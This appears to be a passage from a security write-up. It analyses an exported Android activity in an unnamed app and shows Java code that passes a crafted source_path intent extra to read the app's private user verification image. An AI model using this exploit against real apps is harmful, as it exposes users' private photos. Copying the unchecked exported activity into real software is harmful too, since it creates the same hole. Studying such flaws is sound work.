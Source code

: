 ```xml
<!-- From "Anonymous" App AndroidManifest.xml -->
<activity
    android:label="@string/iamutkarshtiwari_github_io_ananas_library_name"
    android:name="iamutkarshtiwari.github.io.ananas.editimage.EditImageActivity"
    android:exported="true"
    android:screenOrientation="portrait"/>
```

Now, the first thing we want to see is the `onCreate()` function because when an activity is launched, the `onCreate()` method is called, which is where the activity's UI is created so it's like looking at the main function/entry point of the activity. Below is the code for the `onCreate()` method of the `EditImageActivity` class:

```java
public void onCreate(Bundle bundle) {
    super.onCreate(bundle);
    setContentView(R.layout.activity_image_edit);
    getWindow().setStatusBarColor(ContextCompat.getColor(this, R.color.materialcolorpicker__blue));
    getData();
    initView();
}
```

The `getData()` method is where the app gets the data to be edited. I looked at the `getData()` method and found that it was getting the data from the intent(read up on Android Intents [here](https://developer.android.com/reference/android/content/Intent)) that started the activity i.e., we control the data that is passed to the activity. The code for the `getData()` method is as follows:

```java
private void getData() {
    this.isPortraitForced = getIntent().getBooleanExtra(ImageEditorIntentBuilder.FORCE_PORTRAIT, false);
    this.isSupportActionBarEnabled = getIntent().getBooleanExtra(ImageEditorIntentBuilder.SUPPORT_ACTION_BAR_VISIBILITY, false);
    this.sourceFilePath = getIntent().getStringExtra(ImageEditorIntentBuilder.SOURCE_PATH);
    this.outputFilePath = getIntent().getStringExtra(ImageEditorIntentBuilder.OUTPUT_PATH);
    this.editorTitle = getIntent().getStringExtra(ImageEditorIntentBuilder.EDITOR_TITLE);
    this.showAutoCropImage = getIntent().getBooleanExtra(ImageEditorIntentBuilder.CROP_IMAGE_FEATURE_AUTO_SELECT, false);
}
```

The above code reveals that the source path for the image is controlled by the calling intent. We just need to put an `Extra` to our calling intent with the key as `source_path` (the parameter `ImageEditorIntentBuilder.SOURCE_PATH` is defined as `source_path` string). This should allow us(an external malicious app) to access internal images stored by the "Anonymous" app. The internal files used by an app are stored in `/data/data/<package-name>/files` and the "Anonymous" app stores an image of the user(image required for verification) in `/data/data/<anonymous-package-name>/files/CHALLENGE_IMAGE`.

So, I wrote a simple app to test the exploit and it worked! I had access to the internal images of the app. Below is the exploit code:

```Java
Intent intent = new Intent();
intent.setClassName("anonymous.package.name", "iamutkarshtiwari.github.io.ananas.editimage.EditImageActivity");
intent.putExtra("source_path", "/data/data/anonymous.package.name/files/CHALLENGE_IMAGE");
startActivity(intent);
```
